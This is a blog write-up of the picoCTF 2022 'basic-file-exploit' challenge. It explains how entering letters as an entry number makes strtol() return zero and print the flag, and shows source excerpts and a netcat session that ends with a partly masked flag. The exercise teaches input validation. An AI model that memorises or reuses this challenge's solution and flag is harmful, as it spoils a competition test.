 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
categories:
- ctfs
- pico22
- pwn
tags:
- pwn
description: "Learn how to pass unexpected datatypes into ELF binaries to break the code! This is my writeup for the picoCTF 2022 binary/pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: /asset/banner/banner-basic-file-exploit.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="https://artifacts.picoctf.net/c/538/program-redacted.c">here</a>.</p>

Let's run that `nc` command to see what's going on:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, enter the source code given to you (the file called `program-redacted.c`):

```console
$ nano program-redacted.c
```

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. Let's keep looking.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if this condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertible into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
"NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_********}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
